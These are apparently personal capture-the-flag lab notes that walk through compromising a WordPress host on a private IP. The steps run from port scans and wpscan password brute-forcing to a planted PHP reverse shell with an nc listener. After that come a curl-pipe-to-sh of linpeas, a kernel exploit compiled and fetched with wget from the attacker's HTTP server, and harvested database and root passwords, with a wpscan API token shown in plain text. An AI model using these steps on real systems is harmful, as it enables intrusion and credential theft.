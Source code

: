 Given IP 192.168.172.50

rustscan 192.168.172.50
	21/tcp open  ftp     syn-ack
	22/tcp open  ssh     syn-ack
	80/tcp open  http    syn-ack

sudo nmap -p21,22,80 -sC -sV -oN services.nmap 192.168.172.50 -v
	PORT   STATE SERVICE VERSION
	21/tcp open  ftp     vsftpd 3.0.3
	| ftp-syst:
	|   STAT:
	| FTP server status:
	|      Connected to ::ffff:192.168.45.172
	|      Logged in as ftp
	|      TYPE: ASCII
	|      No session bandwidth limit
	|      Session timeout in seconds is 300
	|      Control connection is plain text
	|      Data connections will be plain text
	|      At session startup, client count was 1
	|      vsFTPd 3.0.3 - secure, fast, stable
	|_End of status
	|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
	22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey:
	|   2048 08:ee:e3:ff:31:20:87:6c:12:e7:1c:aa:c4:e7:54:f2 (RSA)
	|   256 ad:e1:1c:7d:e7:86:76:be:9a:a8:bd:b9:68:92:77:87 (ECDSA)
	|_  256 0c:e1:eb:06:0c:5c:b5:cc:1b:d1:fa:56:06:22:31:67 (ED25519)
	80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
	|_http-title: Site doesn't have a title (text/html).
	|_http-server-header: Apache/2.4.18 (Ubuntu)
	| http-robots.txt: 1 disallowed entry
	|_Hackers
	| http-methods:
	|_  Supported Methods: OPTIONS GET HEAD POST
	Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Found wordpress
![[Pasted image 20231104091022.png]]
http://192.168.172.50/wordpress/

WP Scan since I found wordpress
	wpscan --url http://192.168.172.50/wordpress/ -e -t 20 -v  --force --api-token Sy5tZcHbYUJyHJbw6TbZBNqiyIO9copNXdF6Zkzh3cg -o WPScan.txt
		[i] User(s) Identified:
		[+] btrisk
		 | Found By: Author Posts - Display Name (Passive Detection)
		 | Confirmed By:
		 |  Rss Generator (Passive Detection)
		 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
		[+] admin
		 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
		 | Confirmed By: Login Error Messages (Aggressive Detection)

Now password attack on the users 
	wpscan --url http://192.168.172.50/wordpress/ -t 20 -v  --force -U btrisk,admin -P /usr/share/wordlists/rockyou.txt
		[+] Performing password attack on Xmlrpc Multicall against 2 user/s
		[SUCCESS] - admin / admin
		Progress Time: 00:01:38 <
	Also could have guesses the default password of admin too

![[Pasted image 20231104092855.png]] 

In wordpress dashboard modify a page with a reverse php shell from pentest monkey since wordpress is php
![[Pasted image 20231104093329.png]]

Prep the revshell
	hostname -I
		192.168.45.172
	nc -nlvp 4444
# Access

Got connection

![[Pasted image 20231104094512.png]]
Local user flag
d8b809bb138bef098be1f5c3162a2f78

# Priv Esc

Now Linpeas
	curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
		curl isn't on the system


Found kernel local priv esc due to old ubuntu
![[Pasted image 20231104095532.png]]

Need to compile and sent to target
	42275.c had a compiulation error so I'll use /usr/share/exploitdb/exploits/linux_x86/local/42276.c
	gcc 42276.c -o privesc
		Works
	now python server
		python -m http.server 80
			Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
	On Target
		wget http://192.168.45.172/privesc
			$ pwd
			/tmp
			$ ls
			privesc
			systemd-private-20fdaf2d5e444caa977c78273a05e50a-systemd-timesyncd.service-2gZKlK
			vmware-root
			$
		Can't run on target due to library mismatch


transferred linpeas though and ran
	╔══════════╣ Analyzing Wordpress Files (limit 70)
	-rw-rw-r-- 1 btrisk 1000 3441 Apr 24  2017 /var/www/html/wordpress/wp-config.php  
	define('DB_NAME', 'wordpress');
	define('DB_USER', 'root');
	define('DB_PASSWORD', 'rootpassword!');
	define('DB_HOST', 'localhost');


Database for wordpress is mySQL

crackstation for the hash


www-data@ubuntu:/tmp$ su root
su root
Password: roottoor

root@ubuntu:/tmp# cd /root
cd /root
root@ubuntu:~# ls
ls
proof.txt
root@ubuntu:~# cat proof.txt
cat proof.txt
c0af771a625bd503335ce68b1567e52c
root@ubuntu:~#
